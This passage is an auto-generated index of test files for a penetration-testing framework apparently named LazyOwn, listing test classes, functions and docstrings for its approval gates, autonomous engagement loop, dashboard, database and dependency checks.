- `test_set_mode_persists_and_normalises_invalid` (line 63) `def test_set_mode_persists_and_normalises_invalid(sessions_dir)`
- `test_state_from_dict_sanitises_unknown_mode` (line 74) `def test_state_from_dict_sanitises_unknown_mode()`
- `test_state_from_dict_preserves_pending` (line 80) `def test_state_from_dict_preserves_pending()`
- `test_pause_resume_round_trip` (line 102) `def test_pause_resume_round_trip(sessions_dir)`
- `test_add_remove_clear_veto` (line 112) `def test_add_remove_clear_veto(sessions_dir)`
- `test_add_veto_rejects_empty_token` (line 128) `def test_add_veto_rejects_empty_token(sessions_dir)`
- `test_is_vetoed_uses_first_token` (line 135) `def test_is_vetoed_uses_first_token(sessions_dir)`
- `test_set_focus_replaces_list` (line 143) `def test_set_focus_replaces_list(sessions_dir)`
- `test_target_in_focus_defaults_to_true_when_no_focus` (line 153) `def test_target_in_focus_defaults_to_true_when_no_focus(sessions_dir)`
- `test_propose_decide_consume_cycle` (line 163) `def test_propose_decide_consume_cycle(sessions_dir)`
- `test_decide_rejects_invalid_decision` (line 183) `def test_decide_rejects_invalid_decision(sessions_dir)`
- `test_decide_with_unknown_id_returns_none` (line 191) `def test_decide_with_unknown_id_returns_none(sessions_dir)`
- `test_consume_expires_overdue_pending` (line 198) `def test_consume_expires_overdue_pending(sessions_dir)`
- `test_pending_action_is_expired_only_when_still_pending` (line 209) `def test_pending_action_is_expired_only_when_still_pending()`
- `test_wait_for_decision_returns_approved` (line 221) `def test_wait_for_decision_returns_approved(sessions_dir)`
- `test_wait_for_decision_expires_after_ttl` (line 237) `def test_wait_for_decision_expires_after_ttl(sessions_dir)`
- `test_wait_for_decision_polls_until_decided` (line 252) `def test_wait_for_decision_polls_until_decided(sessions_dir)`
- `test_wait_until_unpaused_returns_true_when_already_running` (line 274) `def test_wait_until_unpaused_returns_true_when_already_running(sessions_dir)`
- `test_wait_until_unpaused_returns_false_after_max_wait` (line 288) `def test_wait_until_unpaused_returns_false_after_max_wait(sessions_dir)`
- `test_wait_until_unpaused_returns_true_after_resume` (line 310) `def test_wait_until_unpaused_returns_true_after_resume(sessions_dir)`
- `test_save_writes_atomic_file_with_restricted_mode` (line 331) `def test_save_writes_atomic_file_with_restricted_mode(sessions_dir)`
- `test_load_returns_defaults_on_invalid_json` (line 342) `def test_load_returns_defaults_on_invalid_json(sessions_dir)`
- `test_concurrent_save_serialised_by_lock` (line 352) `def test_concurrent_save_serialised_by_lock(sessions_dir)`
- `_sleep` (line 257) `def _sleep(_seconds)`
- `_now` (line 293) `def _now()`
- `_sleep` (line 296) `def _sleep(_seconds)`
- `_sleep` (line 315) `def _sleep(_seconds)`

#### `test_daemon_ctl_command_set.py`
**Path:** `tests/test_daemon_ctl_command_set.py`
**File Doc:** *Daemon command set extraction tests.  SDD contract for the daemon cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/daemon_ctl.py``.  Stage B (active): the originals are deleted from ``misc_migrated.py`` and ``DaemonControlCommandSet`` subclasses ``LazyOwnCommandSet`` so ``cli.registry`` registers it on the shell. Tests assert active registration eligibility, command coverage, and absence of the methods in the source module.*

**Classes:**
- `DaemonSuiteConfig` (line 34) `class DaemonSuiteConfig` - *Centralised constants for the daemon extraction suite.*

**Functions:**
- `_add_repo_root_to_syspath` (line 28) `def _add_repo_root_to_syspath()`
- `_methods_of` (line 53) `def _methods_of(path, class_name)`
- `test_target_is_active_command_set` (line 65) `def test_target_is_active_command_set()`
- `test_target_exposes_full_daemon_cluster` (line 74) `def test_target_exposes_full_daemon_cluster()`
- `test_target_phase_metadata` (line 81) `def test_target_phase_metadata()`
- `test_source_no_longer_defines_cluster` (line 87) `def test_source_no_longer_defines_cluster()`
- `test_registry_registers_target` (line 93) `def test_registry_registers_target()`
- `test_no_command_collisions_with_source` (line 100) `def test_no_command_collisions_with_source()`

#### `test_daemon_loop.py`
**Path:** `tests/test_daemon_loop.py`
**File Doc:** *BDD tests for the integrated autonomous loop in the daemon.  Given the existing _run_objective flow with an injected planner, world model and runner, when the frontier empties, a command repeats, the goal is proven, or the gate holds, then the loop stops or skips instead of running blind.*

**Classes:**
- `_Phase` (line 24) `class _Phase`
- `_World` (line 30) `class _World`
- `_Parser` (line 50) `class _Parser`
- `_Strategy` (line 58) `class _Strategy`
- `_EmptyPlanner` (line 75) `class _EmptyPlanner`
- `_RepeatPlanner` (line 168) `class _RepeatPlanner`

**Functions:**
- `_patch` (line 82) `def _patch(monkeypatch, tmp_path)` - *Point sessions, runner, OS probe and database at fakes.*
- `_events` (line 104) `def _events(tmp_path)` - *Read the emitted event stream.*
- `_run` (line 112) `def _run(monkeypatch, tmp_path, objective, commands, planner, world, max_steps)` - *Run one objective with fakes and return step results.*
- `test_loop_ends_when_no_new_direction` (line 126) `def test_loop_ends_when_no_new_direction(monkeypatch, tmp_path)` - *BDD: empty refills with unchanged facts end the objective.*
- `test_loop_skips_unapproved_gated_command` (line 134) `def test_loop_skips_unapproved_gated_command(monkeypatch, tmp_path)` - *BDD: a gated credential-dumping command never executes.*
- `test_loop_stops_when_objective_proven` (line 155) `def test_loop_stops_when_objective_proven(monkeypatch, tmp_path)` - *BDD: terminal world state matching the goal ends the loop.*
- `test_loop_skips_duplicate_success` (line 164) `def test_loop_skips_duplicate_success(monkeypatch, tmp_path)` - *BDD: an identical successful command never runs twice.*
- `test_decompose_goal_splits_compound` (line 197) `def test_decompose_goal_splits_compound(tmp_path)` - *BDD: compound goals split into verifiable objectives.*
- `test_marker_helpers_extract_real_output` (line 216) `def test_marker_helpers_extract_real_output()` - *BDD: marker wrap and strip isolate real command output.*
- `_fake_os` (line 90) `def _fake_os(_target, _loop)`
- `_fake_get_db` (line 98) `def _fake_get_db(db_path)`

**Methods:**
- `__init__` (line 25) `def __init__(self, value)` - *Hold a phase value.*
- `__init__` (line 31) `def __init__(self, state)` - *Hold a single host state for the target.*
- `get_phase` (line 35) `def get_phase(self)` - *Return the recon phase.*
- `snapshot` (line 39) `def snapshot(self)` - *Return hosts with the configured state.*
- `update_from_findings` (line 43) `def update_from_findings(self, _findings)` - *Accept findings without effect.*
- `update_host` (line 46) `def update_host(self, _target)` - *Accept host updates without effect.*
- `parse` (line 51) `def parse(self, _output, host, tool)` - *Return an empty observation.*
- `__init__` (line 59) `def __init__(self, commands)` - *Cycle through canned commands.*
- `next_command` (line 64) `def next_command(self, target, phase, services, os_hint)` - *Return the next canned command as a planner-free decision.*
- `register_output` (line 70) `def register_output(self, _output, _command, platform, success)` - *Accept output without effect.*
- `plan` (line 76) `def plan(self, _target, max_candidates)` - *Always report no candidates.*
- `__init__` (line 169) `def __init__(self)` - *Track plan calls.*
- `plan` (line 173) `def plan(self, target, max_candidates)` - *Emit the same command with a changing fingerprint.*

#### `test_dashboard_routes.py`
**Path:** `tests/test_dashboard_routes.py`
**File Doc:** *Integration tests for dashboard_bp loot and timeline routes.*

**Classes:**
- `_TestUser` (line 16) `class _TestUser(UserMixin)`
- `TestLootRoute` (line 75) `class TestLootRoute` - *Tests for GET /dashboard/loot.*
- `TestTimelineRoute` (line 180) `class TestTimelineRoute` - *Tests for GET /dashboard/timeline.*
- `TestDashboardIndexRoute` (line 391) `class TestDashboardIndexRoute` - *Sanity tests for the main dashboard index route.*

**Functions:**
- `client` (line 22) `def client(tmp_path)` - *Create a Flask test client with dashboard_bp registered, a LoginManager
configured, and an authenticated operator session active.*
- `_write_credentials_file` (line 45) `def _write_credentials_file(sessions_dir, filename, lines)`
- `_write_hashes_file` (line 49) `def _write_hashes_file(sessions_dir, filename, lines)`
- `_write_loot_file` (line 53) `def _write_loot_file(sessions_dir, rel_path, content)`
- `_write_csv_report` (line 60) `def _write_csv_report(sessions_dir, rows)`
- `_write_events_jsonl` (line 69) `def _write_events_jsonl(sessions_dir, events)`
- `load_user` (line 34) `def load_user(user_id)`

**Methods:**
- `__init__` (line 17) `def __init__(self, user_id)`
- `test_loot_route_returns_200_with_data` (line 78) `def test_loot_route_returns_200_with_data(self, client)` - *Loot page returns 200 when credentials, hashes, and loot files exist.*
- `test_loot_empty_returns_200` (line 107) `def test_loot_empty_returns_200(self, client)` - *Loot page returns 200 with empty state when no loot files exist.*
- `test_loot_skips_comment_lines` (line 117) `def test_loot_skips_comment_lines(self, client)` - *Loot page skips lines starting with # in credential and hash files.*
- `test_loot_respects_max_entries` (line 148) `def test_loot_respects_max_entries(self, client)` - *Loot page caps entries at _LOOT_MAX_ENTRIES (500).*
- `test_loot_multiple_credential_files` (line 165) `def test_loot_multiple_credential_files(self, client)` - *Loot page aggregates all credential*.txt glob matches.*
- `test_timeline_route_returns_200_with_data` (line 183) `def test_timeline_route_returns_200_with_data(self, client)` - *Timeline page returns 200 when CSV report and events exist.*
- `test_timeline_empty_returns_200` (line 230) `def test_timeline_empty_returns_200(self, client)` - *Timeline page returns 200 with empty state when no data files exist.*
- `test_timeline_sorted_newest_first` (line 238) `def test_timeline_sorted_newest_first(self, client)` - *Timeline entries are sorted by timestamp descending (newest first).*
- `test_timeline_handles_csv_tool_column` (line 266) `def test_timeline_handles_csv_tool_column(self, client)` - *Timeline CSV reader uses the 'tool' column as fallback for 'command'.*
- `test_timeline_csv_without_timestamp` (line 278) `def test_timeline_csv_without_timestamp(self, client)` - *Timeline skips CSV rows that have no command/tool value.*
- `test_timeline_respects_max_rows` (line 296) `def test_timeline_respects_max_rows(self, client)` - *Timeline caps at _TIMELINE_MAX_ROWS (200).*
- `test_timeline_normalizes_iso_timestamps` (line 318) `def test_timeline_normalizes_iso_timestamps(self, client)` - *Timeline normalizes ISO-format timestamps from events.*
- `test_timeline_only_events_no_csv` (line 339) `def test_timeline_only_events_no_csv(self, client)` - *Timeline works when only events.jsonl exists (no CSV report).*
- `test_timeline_only_csv_no_events` (line 360) `def test_timeline_only_csv_no_events(self, client)` - *Timeline works when only CSV report exists (no events.jsonl).*
- `test_timeline_handles_malformed_jsonl` (line 375) `def test_timeline_handles_malformed_jsonl(self, client)` - *Timeline gracefully skips malformed JSONL lines.*
- `test_dashboard_index_returns_200` (line 394) `def test_dashboard_index_returns_200(self, client)` - *Main dashboard page returns 200.*
- `test_dashboard_api_data_returns_json` (line 401) `def test_dashboard_api_data_returns_json(self, client)` - *API data endpoint returns valid JSON with expected keys.*

#### `test_dashboard_tui.py`
**Path:** `tests/test_dashboard_tui.py`
**File Doc:** *Tests for cli/dashboard_tui.py.  Exercises the data-loading helpers and widget update logic with synthetic fixtures so the suite runs without a real LazyOwn session on disk. The Textual App itself is not instantiated in these tests — rendering is a thin wrapper around the helpers tested here.*

**Classes:**
- `TestReadJson` (line 29) `class TestReadJson`
- `TestCountLinesInGlob` (line 44) `class TestCountLinesInGlob`
- `TestReadRecentCommands` (line 65) `class TestReadRecentCommands`
- `TestKillChainPhases` (line 117) `class TestKillChainPhases`
- `TestGraphHints` (line 131) `class TestGraphHints`

**Methods:**
- `test_reads_valid_file` (line 30) `def test_reads_valid_file(self, tmp_path)`
- `test_missing_file_returns_empty_dict` (line 35) `def test_missing_file_returns_empty_dict(self, tmp_path)`
- `test_invalid_json_returns_empty_dict` (line 38) `def test_invalid_json_returns_empty_dict(self, tmp_path)`
- `test_counts_non_empty_lines` (line 45) `def test_counts_non_empty_lines(self, tmp_path)`
- `test_empty_file_returns_zero` (line 51) `def test_empty_file_returns_zero(self, tmp_path)`
- `test_no_matching_files_returns_zero` (line 56) `def test_no_matching_files_returns_zero(self, tmp_path)`
- `test_multiple_files_summed` (line 59) `def test_multiple_files_summed(self, tmp_path)`
- `_make_transcript` (line 66) `def _make_transcript(self, tmp_path, rows)`
- `test_reads_recent_commands` (line 77) `def test_reads_recent_commands(self, tmp_path)`
- `test_missing_file_returns_empty` (line 89) `def test_missing_file_returns_empty(self, tmp_path)`
- `test_empty_file_returns_empty` (line 93) `def test_empty_file_returns_empty(self, tmp_path)`
- `test_respects_window_limit` (line 98) `def test_respects_window_limit(self, tmp_path)`
- `test_skips_empty_tool_rows` (line 105) `def test_skips_empty_tool_rows(self, tmp_path)`
- `test_all_phases_present` (line 118) `def test_all_phases_present(self)`
- `test_phases_ordered` (line 125) `def test_phases_ordered(self)`
- `test_returns_list_when_advisor_unavailable` (line 132) `def test_returns_list_when_advisor_unavailable(self)`
- `test_returns_list_on_exception` (line 137) `def test_returns_list_on_exception(self)`
- `test_returns_labels_from_advisor` (line 142) `def test_returns_labels_from_advisor(self)`

#### `test_db.py`
**Path:** `tests/test_db.py`
**File Doc:** *Tests for modules.db — LazyOwnDB SQLite layer.  Covers workspace lifecycle, host/service insertion, CSV export, and nmap XML import.*

**Classes:**
- `TestLazyOwnDB` (line 28) `class TestLazyOwnDB`

**Functions:**
- `fresh_db` (line 20) `def fresh_db()` - *Return a LazyOwnDB backed by a temporary SQLite file.*

**Methods:**
- `test_initial_schema` (line 29) `def test_initial_schema(self, fresh_db)` - *Schema tables must exist immediately after construction.*
- `test_workspace_create_and_list` (line 46) `def test_workspace_create_and_list(self, fresh_db)` - *Creating a workspace returns a positive ID and lists correctly.*
- `test_duplicate_workspace_returns_negative_one` (line 54) `def test_duplicate_workspace_returns_negative_one(self, fresh_db)` - *Duplicate workspace names return -1 (not crash).*
- `test_host_crud` (line 60) `def test_host_crud(self, fresh_db)` - *Insert, retrieve, delete hosts.*
- `test_host_upsert_updates_existing` (line 73) `def test_host_upsert_updates_existing(self, fresh_db)` - *Adding the same address twice updates the existing row.*
- `test_service_crud` (line 82) `def test_service_crud(self, fresh_db)` - *Services can be attached to a host and queried.*
- `test_credential_storage` (line 94) `def test_credential_storage(self, fresh_db)` - *Credentials are stored per host and retrieved per workspace.*
- `test_csv_export` (line 105) `def test_csv_export(self, fresh_db)` - *CSV export produces well-formed rows.*
- `test_nmap_xml_import` (line 114) `def test_nmap_xml_import(self, fresh_db, tmp_path)` - *Importing a minimal nmap XML populates hosts and services.*
- `test_workspace_delete` (line 144) `def test_workspace_delete(self, fresh_db)` - *Deleting a workspace removes its hosts.*
- `test_loot_and_notes` (line 151) `def test_loot_and_notes(self, fresh_db)` - *Loot and notes are stored per workspace.*

#### `test_dependencies.py`
**Path:** `tests/test_dependencies.py`
**File Doc:** *Tests for ``core.dependencies`` graceful optional-import handling.  These tests pin the behaviour the refactor relies on:  - An installed dependency resolves to the real module/attribute so runtime behaviour is byte-for-byte identical to a direct ``import``. - A missing dependency never raises at import time; it returns a proxy that fails only on use, with a remediation message. - ``utils.py`` still exposes every lazily-bound symbol so ``lazyown.py``'s ``from utils import *`` contract keeps working.*

**Classes:**
- `TestMissingDependencyError` (line 82) `class TestMissingDependencyError` - *The remediation error carries enough context to fix the install.*
- `TestOptionalImportPresent` (line 102) `class TestOptionalImportPresent` - *An installed module resolves to the real object.*
- `TestOptionalImportAbsent` (line 113) `class TestOptionalImportAbsent` - *A missing module degrades to a deferred proxy.*
- `TestOptionalAttr` (line 146) `class TestOptionalAttr` - *Attribute and submodule resolution mirror ``from x import y``.*
- `TestRegistry` (line 170) `class TestRegistry` - *The dependency registry is the single source of truth and is complete.*
- `TestProbe` (line 204) `class TestProbe` - *Probing reports availability and version without raising.*
- `TestReport` (line 220) `class TestReport` - *The aggregate report classifies missing dependencies correctly.*
- `TestUtilsIntegration` (line 255) `class TestUtilsIntegration` - *``utils.py`` keeps exporting every lazily-bound symbol.*

**Functions:**
- `_run_in_subprocess` (line 59) `def _run_in_subprocess(snippet)` - *Execute ``snippet`` in a clean subprocess and return trimmed stdout.

Mirrors ``tests/test_core.py`` so ``utils.py`` argv parsing does not fire
when the module is imported for assertions.

Args:
    snippet: Python source executed with ``-c``.

Returns:
    The trimmed standard output of the subprocess.*

**Methods:**
- `test_message_contains_pip_command` (line 85) `def test_message_contains_pip_command(self)`
- `test_attributes_are_exposed` (line 92) `def test_attributes_are_exposed(self)`
- `test_is_import_error_subclass` (line 98) `def test_is_import_error_subclass(self)`
- `test_returns_real_module` (line 105) `def test_returns_real_module(self)`
- `test_truthy_when_present` (line 109) `def test_truthy_when_present(self)`
- `test_returns_falsy_proxy` (line 116) `def test_returns_falsy_proxy(self)`
- `test_attribute_access_raises` (line 120) `def test_attribute_access_raises(self)`
- `test_call_raises` (line 125) `def test_call_raises(self)`
- `test_subscription_raises` (line 130) `def test_subscription_raises(self)`
- `test_iteration_raises` (line 135) `def test_iteration_raises(self)`
- `test_len_raises` (line 140) `def test_len_raises(self)`
- `test_returns_real_attribute` (line 149) `def test_returns_real_attribute(self)`
- `test_submodule_fallback` (line 153) `def test_submodule_fallback(self)`
- `test_missing_module_returns_proxy` (line 157) `def test_missing_module_returns_proxy(self)`
- `test_missing_attribute_returns_proxy` (line 163) `def test_missing_attribute_returns_proxy(self)`
- `test_every_spec_is_fully_populated` (line 173) `def test_every_spec_is_fully_populated(self)`
- `test_lazily_bound_dependency_is_registered` (line 200) `def test_lazily_bound_dependency_is_registered(self, import_name)`
- `test_present_dependency` (line 207) `def test_present_dependency(self)`
- `test_absent_dependency` (line 213) `def test_absent_dependency(self)`
- `test_collect_returns_report` (line 223) `def test_collect_returns_report(self)`
- `test_missing_and_ok_consistency` (line 228) `def test_missing_and_ok_consistency(self)`
- `test_ok_report_has_no_missing` (line 235) `def test_ok_report_has_no_missing(self)`
- `test_format_report_renders_markers` (line 241) `def test_format_report_renders_markers(self)`
- `test_main_returns_exit_code` (line 250) `def test_main_returns_exit_code(self)`
- `test_symbol_is_exported` (line 259) `def test_symbol_is_exported(self, name)`
- `test_is_binary_present_uses_path_lookup` (line 265) `def test_is_binary_present_uses_path_lookup(self)`

#### `test_detection_feed.py`
**Path:** `tests/test_detection_feed.py`
**File Doc:** *Tests for modules/detection_feed.py.*

**Classes:**
- `TestDetectionFeedInit` (line 14) `class TestDetectionFeedInit`
- `TestSigmaParsing` (line 27) `class TestSigmaParsing`
- `TestCaching` (line 68) `class TestCaching`
- `TestFeedbackAdjustment` (line 96) `class TestFeedbackAdjustment`
- `TestCategoryMap` (line 119) `class TestCategoryMap`

**Methods:**
- `test_default_init` (line 15) `def test_default_init(self, tmp_path)`
- `test_custom_sources` (line 20) `def test_custom_sources(self, tmp_path)`
- `test_extract_log_source` (line 28) `def test_extract_log_source(self, tmp_path)`
- `test_extract_log_source_minimal` (line 33) `def test_extract_log_source_minimal(self, tmp_path)`
- `test_extract_mitre` (line 38) `def test_extract_mitre(self, tmp_path)`
- `test_extract_mitre_none` (line 43) `def test_extract_mitre_none(self, tmp_path)`
- `test_extract_keywords` (line 48) `def test_extract_keywords(self, tmp_path)`
- `test_extract_categories` (line 61) `def test_extract_categories(self, tmp_path)`
- `test_cache_and_load` (line 69) `def test_cache_and_load(self, tmp_path)`
- `test_load_cached_missing` (line 90) `def test_load_cached_missing(self, tmp_path)`
- `test_adjust_from_feedback_no_file` (line 97) `def test_adjust_from_feedback_no_file(self, tmp_path)`
- `test_adjust_from_feedback` (line 102) `def test_adjust_from_feedback(self, tmp_path)`
- `test_category_mappings` (line 120) `def test_category_mappings(self)`
- `test_default_probability` (line 127) `def test_default_probability(self)`

#### `test_docs_drift_contract.py`
**Path:** `tests/test_docs_drift_contract.py`
**File Doc:** *Docs drift workflow contract tests.  SDD contract: ``.github/workflows/docs-drift.yml`` must regenerate every auto-generated reference (command index, COMMANDS.md + HTML, UTILS.md) and fail on any drift. Auto-generated docs are treated as ground truth by AI operators, so a vacuous check (regenerating one artefact while diffing another) is a correctness bug, not a nit.*

**Functions:**
- `workflow_text` (line 22) `def workflow_text()`
- `workflow_steps` (line 27) `def workflow_steps(workflow_text)`
- `_runs_command` (line 38) `def _runs_command(step, command)` - *Match a generator invocation, not a mention inside an echo message.*
- `test_workflow_exists` (line 43) `def test_workflow_exists()`
- `test_regenerates_command_index` (line 47) `def test_regenerates_command_index(workflow_steps)`
- `test_regenerates_commands_reference` (line 53) `def test_regenerates_commands_reference(workflow_steps)`
- `test_regenerates_utils_reference` (line 59) `def test_regenerates_utils_reference(workflow_steps)`
- `test_diffs_command_index` (line 65) `def test_diffs_command_index(workflow_steps)`
- `test_diffs_commands_reference` (line 71) `def test_diffs_commands_reference(workflow_steps)`
- `test_diffs_utils_reference` (line 77) `def test_diffs_utils_reference(workflow_steps)`
- `test_trigger_watches_generator_inputs` (line 81) `def test_trigger_watches_generator_inputs(workflow_text)`

#### `test_doctor.py`
**Path:** `tests/test_doctor.py`
**File Doc:** *tests/test_doctor.py  Tests for the preflight environment health check in ``cli.doctor``.  The doctor command is the operator's first line of defence against a broken install, so the contract under test is:  - Every check function is pure and side-effect free: dependency probing is injected, never executed against the real environment. - Required dependencies map to ``fail``; optional ones map to ``warn``; present ones map to ``ok``. - File-presence checks (payload.json, certificates) resolve against an injected repository root so the suite never depends on the real working tree. - :class:`DoctorReport` aggregates the worst status correctly and exposes a ``healthy`` flag that ignores warnings but trips on failures. - SecLists and external-tool detection are delegated to ``cli.wizard`` so the framework keeps a single source of truth.*

**Classes:**
- `TestPythonVersion` (line 32) `class TestPythonVersion`
- `TestVirtualEnv` (line 51) `class TestVirtualEnv`
- `TestPackages` (line 72) `class TestPackages`
- `TestFileChecks` (line 107) `class TestFileChecks`
- `TestSecListsAndTools` (line 129) `class TestSecListsAndTools`
- `TestReportAggregation` (line 155) `class TestReportAggregation`
- `TestGatherAndRun` (line 184) `class TestGatherAndRun`

**Functions:**
- `boom` (line 90) `def boom(name)`

**Methods:**
- `test_supported_version_is_ok` (line 33) `def test_supported_version_is_ok(self)`
- `test_exact_minimum_is_ok` (line 37) `def test_exact_minimum_is_ok(self)`
- `test_old_version_fails` (line 41) `def test_old_version_fails(self)`
- `test_uses_live_interpreter_by_default` (line 46) `def test_uses_live_interpreter_by_default(self)`
- `test_active_venv_is_ok` (line 52) `def test_active_venv_is_ok(self, tmp_path)`
- `test_inactive_with_env_dir_warns_to_activate` (line 56) `def test_inactive_with_env_dir_warns_to_activate(self, tmp_path)`
- `test_no_venv_anywhere_warns_to_install` (line 62) `def test_no_venv_anywhere_warns_to_install(self, tmp_path)`
- `test_none_base_prefix_collapses_to_prefix` (line 67) `def test_none_base_prefix_collapses_to_prefix(self, tmp_path)`
- `test_present_required_package_is_ok` (line 73) `def test_present_required_package_is_ok(self)`
- `test_missing_required_package_fails` (line 78) `def test_missing_required_package_fails(self)`
- `test_missing_optional_package_warns` (line 84) `def test_missing_optional_package_warns(self)`
- `test_finder_exception_treated_as_missing` (line 89) `def test_finder_exception_treated_as_missing(self)`
- `test_default_registry_has_core_packages` (line 97) `def test_default_registry_has_core_packages(self)`
- `test_import_name_differs_from_pip_name_where_expected` (line 101) `def test_import_name_differs_from_pip_name_where_expected(self)`
- `test_payload_present_is_ok` (line 108) `def test_payload_present_is_ok(self, tmp_path)`
- `test_payload_missing_fails` (line 112) `def test_payload_missing_fails(self, tmp_path)`
- `test_certificates_present_is_ok` (line 117) `def test_certificates_present_is_ok(self, tmp_path)`
- `test_certificates_partial_warns` (line 122) `def test_certificates_partial_warns(self, tmp_path)`
- `test_seclists_found_is_ok` (line 130) `def test_seclists_found_is_ok(self)`
- `test_seclists_missing_warns` (line 135) `def test_seclists_missing_warns(self)`
- `test_external_tools_present_and_missing` (line 139) `def test_external_tools_present_and_missing(self)`
- `test_overall_status_ok_when_all_ok` (line 156) `def test_overall_status_ok_when_all_ok(self)`
- `test_overall_status_warn_with_warnings_only` (line 161) `def test_overall_status_warn_with_warnings_only(self)`
- `test_overall_status_fail_trips_healthy` (line 171) `def test_overall_status_fail_trips_healthy(self)`
- `test_gather_report_populates_all_sections` (line 185) `def test_gather_report_populates_all_sections(self, tmp_path)`
- `test_run_returns_report_without_raising` (line 194) `def test_run_returns_report_without_raising(self, tmp_path)`

#### `test_encoding_command_set.py`
**Path:** `tests/test_encoding_command_set.py`
**File Doc:** *Encoding command set extraction tests.  SDD contract for the encoding cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/encoding.py``.  Stage B (active): the originals are deleted from ``misc_migrated.py`` and ``EncodingCommandSet`` subclasses ``LazyOwnCommandSet`` so ``cli.registry`` registers it on the shell. Tests assert active registration eligibility, command coverage, and absence of the methods in the source module.*

**Classes:**
- `EncodingSuiteConfig` (line 34) `class EncodingSuiteConfig` - *Centralised constants for the encoding extraction suite.*

**Functions:**
- `_add_repo_root_to_syspath` (line 28) `def _add_repo_root_to_syspath()`
- `_methods_of` (line 59) `def _methods_of(path, class_name)`
- `test_target_is_active_command_set` (line 71) `def test_target_is_active_command_set()`
- `test_target_exposes_full_encoding_cluster` (line 80) `def test_target_exposes_full_encoding_cluster()`
- `test_target_phase_metadata` (line 87) `def test_target_phase_metadata()`
- `test_source_no_longer_defines_cluster` (line 93) `def test_source_no_longer_defines_cluster()`
- `test_registry_registers_target` (line 99) `def test_registry_registers_target()`
- `test_no_command_collisions_with_source` (line 106) `def test_no_command_collisions_with_source()`

#### `test_engage_gates.py`
**Path:** `tests/test_engage_gates.py`
**File Doc:** *BDD tests for gates and transcripts in the live engage path.  Given an EngageOrchestrator with scripted runners, when a command is denied, duplicated, or already covered by a scan file, then the step is skipped visibly; every executed step lands in the transcript and evidence stores under sessions/.*

**Classes:**
- `_ScriptedRunner` (line 23) `class _ScriptedRunner` - *ICommandRunner double matching substrings to canned outputs.*
- `_RecorderNarrator` (line 44) `class _RecorderNarrator` - *Narrator double recording event kinds.*
- `_Dispatcher` (line 182) `class _Dispatcher`
- `_EmptyPlanner` (line 203) `class _EmptyPlanner`
- `_Dispatcher` (line 209) `class _Dispatcher`
- `_Narrator` (line 248) `class _Narrator(_RecorderNarrator)`

**Functions:**
- `_approved_gate` (line 56) `def _approved_gate()` - *Return a gate double that approves everything.*
- `temp_sessions` (line 63) `def temp_sessions(tmp_path, monkeypatch)` - *Redirect sessions writes of both engagements and daemon.*
- `_orch` (line 74) `def _orch(target, scripted, plan, guard)` - *Build an engage orchestrator with doubles.*
- `test_denied_command_never_executes` (line 89) `def test_denied_command_never_executes(temp_sessions)` - *BDD: a denied step is skipped and its command never runs.*
- `test_duplicate_success_is_skipped` (line 109) `def test_duplicate_success_is_skipped(temp_sessions)` - *BDD: repeating a successful command adds no new direction.*
- `test_scan_step_skipped_when_scan_held` (line 123) `def test_scan_step_skipped_when_scan_held(temp_sessions)` - *BDD: lazynmap never re-runs against a held scan file.*
- `test_executed_steps_leave_transcript_and_evidence` (line 138) `def test_executed_steps_leave_transcript_and_evidence(temp_sessions)` - *BDD: every executed step is recorded with its evidence blob.*
- `test_notify_journal_written_for_findings` (line 153) `def test_notify_journal_written_for_findings(temp_sessions)` - *BDD: high-value notifications render redacted and journal.*
- `test_no_new_direction_when_world_unchanged` (line 164) `def test_no_new_direction_when_world_unchanged(temp_sessions, monkeypatch)` - *BDD: an unchanged world ends the wake with zero extra intents.*
- `test_planner_intent_executes_mapped_verb` (line 175) `def test_planner_intent_executes_mapped_verb(temp_sessions, monkeypatch)` - *BDD: a changed world wakes planner intents mapped to own verbs.*
- `test_planner_fallback_pushes_forward` (line 196) `def test_planner_fallback_pushes_forward(temp_sessions, monkeypatch)` - *BDD: empty refill on a changed world still emits one command.*
- `test_latest_hint_renders_newest_event` (line 225) `def test_latest_hint_renders_newest_event(tmp_path)` - *BDD: spinner hint shows the newest reasoning line.*
- `test_engage_summary_counts_ran_and_skipped` (line 241) `def test_engage_summary_counts_ran_and_skipped(temp_sessions, monkeypatch)` - *BDD: the done message separates ran from skipped steps.*

**Methods:**
- `__init__` (line 26) `def __init__(self, scripted)` - *Hold the command to output map.*
- `run` (line 31) `def run(self, command, timeout)` - *Record the call and return the first matching output.*
- `name` (line 39) `def name(self)` - *Identify the double.*
- `__init__` (line 47) `def __init__(self)` - *Initialize the event log.*
- `narrate` (line 51) `def narrate(self, kind)` - *Record one event kind.*
- `suggest` (line 183) `def suggest(self)`
- `plan` (line 204) `def plan(self, target, max_candidates)` - *Report no candidates.*
- `suggest` (line 210) `def suggest(self)`
- `narrate` (line 249) `def narrate(self, kind, message)` - *Record kinds and messages.*

#### `test_engage_orchestrator.py`
**Path:** `tests/test_engage_orchestrator.py`
**File Doc:** *tests/test_engage_orchestrator.py  Coverage for the engage feature added in modules/engagement_hooks.py, skills/lazyown_policy.py (ApprovalGate), skills/autonomous_daemon.py (EngageOrchestrator + narrator + shell detector), and the lazyc2.py / lazyown.py wiring around them.  Test scope: - EngagementNarrator persists to engagement.log and engagement_audit.jsonl - NotificationBroadcaster fans out to every sink - publish_shell_obtained is idempotent per client_id - ApprovalGate honours auto_approve, gates only gated phases, polls the injected sink, and respects the timeout - FileApprovalSink stores pending then resolved records - StdinApprovalSink returns None when stdin is not a TTY - EngageOrchestrator: validates target, runs the plan, switches tools on failure, narrates SWITCH_TOOL events, stops on shell-obtained indicator - StaticFallbackResolver returns alternatives in order, then exhausts - mcp_engage_target rejects bogus targets and returns an engagement_id - mcp_engage_status returns log lines + pending approvals - lazyown.py exposes do_engage; lazyc2.py installs the SHELL_OBTAINED hook*

**Classes:**
- `TestEngagementNarrator` (line 86) `class TestEngagementNarrator`
- `TestNotificationBroadcaster` (line 139) `class TestNotificationBroadcaster`
- `TestShellObtainedPublisher` (line 191) `class TestShellObtainedPublisher`
- `TestIsValidTarget` (line 241) `class TestIsValidTarget`
- `_RecordingSink` (line 280) `class _RecordingSink` - *Test double satisfying IApprovalSink.*
- `TestApprovalGate` (line 294) `class TestApprovalGate`
- `TestFileApprovalSink` (line 385) `class TestFileApprovalSink`
- `TestStdinApprovalSink` (line 431) `class TestStdinApprovalSink`
- `TestStaticFallbackResolver` (line 451) `class TestStaticFallbackResolver`
- `_ScriptedRunner` (line 473) `class _ScriptedRunner` - *ICommandRunner double driven by an in-memory map of cmd -> output.

    Outputs default to '' which counts as a failure under the heuristic,
    forcing the fallback path. Keys can be substrings matched against the
    composed command (so 'lazynmap' matches 'assign rhost ...
